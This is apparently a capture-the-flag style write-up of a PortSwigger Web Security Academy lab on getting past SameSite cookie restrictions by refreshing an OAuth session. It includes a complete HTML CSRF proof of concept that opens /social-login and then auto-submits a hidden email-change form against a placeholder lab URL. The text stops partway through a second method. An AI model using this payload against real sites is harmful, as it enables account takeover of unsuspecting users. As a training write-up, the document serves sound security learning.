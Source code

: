 
## Observations

According to PortSwigger:

> Completing an OAuth-based login flow may result in a new session each time as the OAuth service doesn't necessarily know whether the user is still logged in to the target site.


### Key Point

We can access `/social-login` while already logged in to trigger the OAuth flow again and get a **new session cookie**.


  ![image](https://github.com/user-attachments/assets/3288bb24-26eb-437d-9e06-035f4116ad82)

---

## Method 1: Using CSRF PoC with Window Click + OAuth Refresh

```html
<html>
  <!-- CSRF PoC - Burp Suite -->
  <body>
    <form action="https://YOUR-LAB-ID.web-security-academy.net/my-account/change-email" method="POST">
      <input type="hidden" name="email" value="test77@test.com" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
      window.onclick = () => {
        window.open('https://YOUR-LAB-ID.web-security-academy.net/social-login');
        setTimeout(submit, 10000);
        function submit() {
          history.pushState('', '', '/');
          document.forms[0].submit();
        }
      };
    </script>
  </body>
</html>
```

---

## Method 2: CSRF via Auto-Submit and Session Renewal

### Step-by-Step:

1. Log in via your social media account and change your email address.
2. In Burp, go to `Proxy > HTTP history` and review the `POST /my-account/change-email` request.
3. Notice it **has no CSRF token** and **no SameSite restrictions**.
